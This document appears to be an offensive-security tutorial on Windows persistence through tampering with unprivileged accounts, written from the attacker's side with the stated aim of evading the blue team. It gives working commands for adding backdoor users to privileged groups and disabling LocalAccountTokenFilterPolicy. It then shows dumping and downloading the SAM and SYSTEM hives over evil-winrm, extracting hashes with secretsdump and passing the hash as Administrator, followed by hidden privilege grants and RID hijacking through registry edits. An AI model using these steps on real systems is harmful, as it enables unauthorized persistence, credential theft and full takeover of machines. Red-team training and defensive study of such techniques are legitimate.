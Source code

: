 # Tampering with unprivileged accounts

Having administrator credentials is the easiest way to achieve persistence. And to make it harder for the blue team 
to detect us, we can manipulate unprivileged user accounts, which will most likely not be monitored as much as 
administratoraccounts, and grant those administrative privileges.

## Assign group memberships

Assume you have dumped the password hashes of the victim machine and successfully cracked the passwords for the 
unprivileged accounts in use.

The direct way to make an unprivileged user gain administrative privileges is to make it part of the Administrators 
group:

    net localgroup administrators <username> /add

This will allow `<username>` to access the server by using RDP, WinRM or any other remote administration service 
available.

Alternatively, use the Backup Operators group. Users in this group will not have administrative privileges but 
will be allowed to read/write any file or registry key on the system, ignoring any configured DACL. This would allow 
for copying the content of the `SAM` and `SYSTEM` registry hives, which can be uses to recover password hashes for 
all the users, enabling escalation to any administrative account.

    net localgroup "Backup Operators" <username> /add

Such an account cannot `RDP` or `WinRM` back into the machine unless it is added it to the Remote Desktop Users (RDP) 
or Remote Management Users (WinRM) groups:

    net localgroup "Remote Management Users" <username> /add

And, `LocalAccountTokenFilterPolicy` strips any local account of its administrative privileges when logging in 
remotely. While being able to elevate privileges through UAC from a graphical user session, when using WinRM, 
the account is confined to a limited access token with no administrative privileges.

To regain administration privileges for the account, disable `LocalAccountTokenFilterPolicy` by changing this 
registry key to 1:

    reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
        
To check the backdoor user is working, establish a `WinRM` connection and check that the Backup Operators group is 
enabled the `username` account.

    evil-winrm -i <IP target> -u <username> -p <password>

Make a backup of `SAM` and `SYSTEM` files and download:

```text
*Evil-WinRM* PS C:\> reg save hklm\system system.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> reg save hklm\sam sam.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> download system.bak
    Info: Download successful!

*Evil-WinRM* PS C:\> download sam.bak
    Info: Download successful!
```

Dump the password hashes for all users using for example, `secretsdump.py` from 
[impacket](https://www.kali.org/tools/impacket/) or another similar tool:

    impacket-secretsdump -sam sam.bak -system system.bak local

Pass-the-Hash to connect to the target machine with Administrator privileges:

    evil-winrm -i <IP target> -u Administrator -H <hash>

## Special privileges and security descriptors

[Privileges](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) are the capacity to do a 
task on the system, like having the capabilities to shut down the server or being able to take ownership of any file 
on the system.

Such privileges can be assigned to any user, regardless of group memberships.

Export the current configuration to a temporary file:

    secedit /export /cfg config.inf

Open the file and add <username> to the lines in the configuration regarding the `SeBackupPrivilege` and 
`SeRestorePrivilege`:

Convert the `.inf` file into a `.sdb` file and use it to load the configuration back into the system:

    secedit /import /cfg config.inf /db config.sdb
    
    secedit /configure /db config.sdb /cfg config.inf

`username` now has equivalent privileges to any Backup Operator, but can not log into the system via `WinRM`. 
Instead of adding the user to the `Remote Management Users` group, change the security descriptor associated with 
the WinRM service to allow `username` to connect. 

Open the configuration window for changing `WinRM` security descriptor:

    Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI

This will open a window where `username` can be added and full privileges assigned to connect to WinRM:

Now `username` can connect via WinRM and having `SeBackup` and `SeRestore` privileges, and after changing the 
`LocalAccountTokenFilterPolicy` registry key, can do the steps to recover the password hashes from the SAM and 
connect back with the Administrator user.

Advantage of this method over group membership assignment is that `username` will look like a regular user when 
groups are checked. Nothing to see here.

## RID hijacking

When a user is created, an identifier called Relative ID (`RID`) is assigned to the user. This RID is a numeric 
identifier representing the user across the system. When a user logs on, the `LSASS` process gets the associated 
`RID` from the `SAM` registry hive and creates an access token associated with that `RID`. If we can tamper with 
the registry value, we can make windows assign an Administrator access token to an unprivileged user by associating 
the same RID to both accounts.

In any Windows system, the default Administrator account is assigned the `RID = 500`, and regular users usually have 
a `RID >= 1000`.

To find the assigned RIDs for any user:

    wmic useraccount get name,sid

The `SID` is an identifier that allows the operating system to identify a user across a domain. The last number group 
is the `RID`. 

To assign a `RID=500` to `username`, access the SAM using Regedit. The SAM is restricted to the SYSTEM account only, 
not even Administrators can edit it. To run `Regedit` as `SYSTEM`, use `psexec`, available in `C:\tools\pstools`:

    C:\tools\pstools> PsExec64.exe -i -s regedit

In Regedit, go to `HKLM\SAM\SAM\Domains\Account\Users\` where there will be a key for each user in the machine. 
To modify `username`, search for a key with its `RID` in `hex`. Under the corresponding key, there will be a value 
called `F`, which holds the user's effective `RID` at position 0x30:

The RID is stored using little-endian notation, so its bytes appear reversed. Replace those two bytes with the 
RID of Administrator in hex (500 = `0x01F4`), and switching around the bytes =`F401`:

The next time `username` logs in, `LSASS` will associate it with the same `RID` as Administrator and grant them the 
same privileges.
        

